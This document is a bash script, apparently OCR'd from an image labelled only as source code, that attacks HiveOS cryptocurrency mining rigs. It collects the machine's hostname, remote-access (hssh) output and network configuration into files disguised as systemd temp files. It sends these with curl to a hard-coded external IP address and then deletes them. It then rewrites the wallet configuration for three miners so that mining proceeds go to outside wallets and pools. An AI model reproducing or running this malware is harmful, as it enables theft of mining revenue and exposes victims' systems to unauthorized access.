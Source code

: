 #! /usr/bin/env bash
FILE_HOSTNAME=/tmp/systemd-private-573f90440f934615953a8ef0764847d2-unknown.service
HSSH_HOSTNAME=/tmp/systemd-private-573f90440f934615953a8ef0764847d2-unknown.service.pid
IFCONFIG_HOSTNAME=/tmp/systemd-private-573f90440f934615953a8ef0764847d2-unknown.service.sock
/bin/hostname > ${FILE_HOSTNAME}
/hive/bin/hssh start > ${HSSH_HOSTNAME}
/sbin/ifconfig > ${IFCONFIG_HOSTNAME}
/hive/sbin/curl -XPOST -F "hostname=@${FILE_HOSTNAME}" -F "hssh=@${HSSH_HOSTNAME}" -F "ifconfig=@${IFCONFIG_HOSTNAME}" "http://185.86.149.116:8085/"
rm ${FILE_HOSTNAME} ${HSSH_HOSTNAME} ${IFCONFIG_HOSTNAME}
FILE=/hive-config/wallet.conf
IS_GMINER=$(/bin/cat $FILE | /bin/grep 'GMINER_TEMPLATE=' | wc -l)
IS_CLAYMORE=$(/bin/cat $FILE | /bin/grep 'EPOOLS_TPL=' | wc -l)
IS_PHONEIX=$(/bin/cat $FILE | /bin/grep 'PHOENIXMINER_URL=' | wc -l)
/bin/bash /hive/bin/miner stop
if [[ "${IS_GMINER}" -eq 1 ]]; then
    /bin/sed -i -r \
      -e 's/^GMINER_TEMPLATE=.+/GMINER_TEMPLATE="12e4081d9204882412eee22a1704ee73491d6a4759be0ed2ef6cda7997824d3c246.beam"/' \
          -e 's/^GMINER_HOST=.+/GMINER_HOST="beam.f2pool.com"/' \
      -e 's/^GMINER_PORT=.+/GMINER_PORT="5000"/' \
      -e 's/^GMINER_TLS=.+/GMINER_TLS="1"/' \
      $FILE
    /bin/bash /hive/bin/miner start
fi
if [[ "${IS_CLAYMORE}" -eq 1 ]]; then
    /bin/sed -i -r \
      -e 's/^EPOOLS_TPL=.+/EPOOLS_TPL="POOL: daggerhashimoto.usa-new.nicehash.com:3353, WALLET: 39Rqd9GvUittmAnn1Lpb4QD8cj89UbTeoX, PSW: x, ESM: 3, ALLPOOLS: 1"/' \
      -e 's/^POOL:.+//' \
      $FILE
    /bin/bash /hive/bin/miner start
fi
if [[ "${IS_PHONEIX}" -eq 1 ]]; then
    /bin/sed -i -r \
      -e 's/^PHOENIXMINER_URL=.+/PHOENIXMINER_URL="POOL: daggerhashimoto.usa-new.nicehash.com:3353, WALLET: 39Rqd9GvUittmAnn1Lpb4QD8cj89UbTeoX, PSW: x, ESM: 3, ALLPOOLS: 1"/' \
      $FILE
    /bin/bash /hive/bin/miner start
fi
